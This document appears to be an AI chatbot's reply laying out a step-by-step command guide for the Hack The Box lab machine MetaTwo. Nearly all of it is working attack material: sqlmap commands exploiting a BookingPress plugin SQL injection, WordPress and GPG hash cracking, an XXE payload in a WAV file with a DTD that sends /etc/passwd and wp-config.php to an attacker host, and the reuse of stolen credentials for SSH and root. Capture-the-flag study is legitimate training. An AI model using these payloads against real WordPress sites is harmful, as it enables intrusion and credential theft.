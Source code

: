 Here’s a clean, structured Markdown command reference for **HTB: MetaTwo** 🧠🔍 — tailored for organized note-taking and HTB prep:

---

# 🧬 HTB: MetaTwo – Command & Exploitation Guide

## 🌐 Recon Phase

### Nmap Full Port Scan + Service Version Detection
```bash
nmap -p- --min-rate 10000 10.10.11.186
nmap -p 21,22,80 -sCV 10.10.11.186
```

### Add Host Mapping
```bash
echo "10.10.11.186 metapress.htb" | sudo tee -a /etc/hosts
```

### Wfuzz for Subdomains
```bash
wfuzz -u http://10.10.11.186 -H "Host: FUZZ.metapress.htb" \
-w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --hh 145
```

---

## 🧨 SQL Injection (BookingPress Plugin)

### Identify Nonce from Page Source
```bash
# Example nonce found in /events/ page JS
'_wpnonce=6027d5fa3e'
```

### SQLMap Setup
Save this as `sqli.req` (modified from Burp):
```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: metapress.htb
Content-Type: application/x-www-form-urlencoded

action=bookingpress_front_get_category_services&_wpnonce=6027d5fa3e&category_id=33&total_service=223
```

### Run SQLMap
```bash
sqlmap -r sqli.req -p total_service --dbs
sqlmap -r sqli.req -p total_service -D blog --tables
sqlmap -r sqli.req -p total_service -D blog -T wp_users --dump
```

---

## 🔐 Cracking WordPress Hash

### Save Hashes
```text
admin:$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
manager:$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
```

### Hashcat
```bash
hashcat -m 400 -a 0 wp.hashes /usr/share/wordlists/rockyou.txt --username
# Cracked: manager:partylikearockstar
```

---

## 🎯 XXE Exploit for File Disclosure

### payload.wav
```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM "http://10.10.14.6/evil.dtd">%remote;%init;%trick;]>\x00' > payload.wav
```

### evil.dtd (serve via Python HTTP server)
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.6/?p=%file;'>">
```

### Serve DTD
```bash
python3 -m http.server 80
```

---

## 🔐 Extract FTP + DB Credentials

From `evil.dtd`, modify to target:
```xml
php://filter/convert.base64-encode/resource=../wp-config.php
```

Expected credentials:
```php
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
```

---

## 📂 FTP Enumeration

```bash
ftp metapress.htb@metapress.htb
# Enter password from wp-config
```

Check files in `/mailer/send_email.php` → extract SMTP creds:
```php
$mail->Username = "jnelson@metapress.htb";
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";
```

---

## 🧑‍💻 Shell as `jnelson`

```bash
sshpass -p 'Cb4_JmWM8zUZWMu@Ys' ssh jnelson@metapress.htb
cat ~/user.txt
```

---

## 🧬 Privilege Escalation via Passpie + GPG

### Extract `.keys` and Format with `gpg2john`
```bash
scp jnelson@metapress.htb:~/.passpie/.keys keys
gpg2john keys | tee gpg.hash
```

### Crack with John
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt gpg.hash
# Found passphrase: blink182
```

### Retrieve Root Password via Passpie
```bash
passpie copy --to stdout --passphrase blink182 root@ssh
# Output: p7qfAZt4_A1xo_0x
```

---

## 🟢 Root Shell

```bash
su -
# Enter root pass: p7qfAZt4_A1xo_0x
cat /root/root.txt
```

---

Let me know if you want this exported to `.md`, Notion, Obsidian, or as a printable cheat sheet! 🧩🔥